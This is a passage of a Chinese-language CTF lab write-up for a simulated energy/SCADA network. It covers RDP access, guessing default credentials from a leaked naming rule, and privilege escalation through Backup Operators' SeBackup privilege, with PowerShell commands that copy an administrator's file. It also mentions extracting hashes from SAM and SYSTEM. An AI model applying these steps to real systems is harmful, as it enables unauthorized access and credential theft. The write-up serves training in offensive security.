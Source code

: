 ```bash
[*] WebTitle http://172.22.26.11       code:200 len:703    title:IIS Windows Server
```

rdp连过去172.22.26.11

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126150600-wklgl23.png?imageSlim)​

开启锅炉得到flag

### 第二关

尝试接管 SCADA 工程师的个人 PC，并通过滥用 Windows 特权组提升至系统权限。

在ftp中

从“内部员工通讯录.xlsx”中获取到员工信息

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126143430-bdaihir.png?imageSlim)​

从“火创能源内部通知.docx”中获取到默认密码规则

```bash
2. 登陆账户设置：
   为方便管理和标准化，登陆账户名将采用姓名全称的小写拼音形式。例如，张三的账户名为zhangsan，工号为0801。初始密码将由账户名+@+工号组成，例如，zhangsan@0801。
```

随机登录一个chenhua/chenhua@0813

rdp连到172.22.17.6

根据题目信息，需要用特权组提权，查看账户的特权组

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126143843-9r56g0f.png?imageSlim)​

可以看到该用户是属于 Backup Operators 组的一部分，默认情况下会授予该组 SeBackup 和 SeRestore 权限，SeBackup 和 SeRestore 权限允许用户读取和写入系统中的任何文件，而忽略任何适当的 DACL（自由访问控制列表）。 此权限存在的背后动机是允许某些用户在系统中执行备份操作，而无需授予其完全的管理权限。

一旦拥有 SeBackup 和 SeRestore 权限，攻击者就可以通过使用多种技术轻松进行提权操作。 包括复制 SAM 和 SYSTEM 注册表配置单元（registry hives）以提取本地管理员的密码 hash 值。

但这里并没有给用户默认分配 SeBackup 权限

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126144029-5doecb4.png?imageSlim)​

‍

```bash
PS C:\Windows\system32> cd C:\Users\chenhua\Desktop\
PS C:\Users\chenhua\Desktop> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\Users\chenhua\Desktop> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS C:\Users\chenhua\Desktop> Set-SeBackupPrivilege
PS C:\Users\chenhua\Desktop> Get-SeBackupPrivilege
SeBackupPrivilege is enabled
PS C:\Users\chenhua\Desktop> Copy-FileSeBackupPrivilege C:\Users\Administrator\flag\flag02.txt C:\Users\chenhua\Desktop\flag02.txt -Overwrite
Copied 350 bytes
PS C:\Users\chenhua\Desktop> cat flag02.txt
```

